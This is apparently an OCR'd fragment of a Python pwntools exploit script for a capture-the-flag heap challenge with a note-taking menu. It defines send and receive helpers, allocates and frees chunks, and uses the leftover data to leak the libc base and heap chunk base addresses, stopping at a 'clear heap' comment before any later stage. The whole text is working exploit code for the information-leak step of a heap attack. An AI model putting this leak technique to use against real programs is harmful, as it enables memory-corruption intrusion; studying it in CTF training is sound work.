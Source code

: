 ```python
sd=lambda x: p.send(x)
sl=lambda x: p.sendline(x)
rv=lambda x: p.recvuntil(x)
sa=lambda a,x: p.sendafter(a,x)
sla=lambda a,x: p.sendlineafter(a,x)

menu='4.exit\n'

def add(size,content=''):
    sla(menu,'1')
    sla('Pls Input your note size\n',str(size))
    sla('Input your note\n',content)


def dele(index):
    sla(menu,'2')
    sla('Input id:\n',str(index))

def login(name):
    sla(menu,'3')
    sla('Please input your name\n',name)
    sla('1.admin\n','0')




add(0x1000)     # 0
add(0x100)      # 1
add(0x15f0)     # 2
dele(0)


add(0x400)
rv('your note is\n')
libc_base=u64(p.recv(6)+2*'\x00')-0x3c5198
log.info('libc base is:'+hex(libc_base))

dele(0)
add(0x400,'a'*17)
rv('a'*16)
chunk_base=u64(p.recv(4)+4*'\x00')-0x61
log.info('chunk base is:'+hex(chunk_base))

dele(0)
dele(1)
dele(2)

# clear heap
##########################################

```
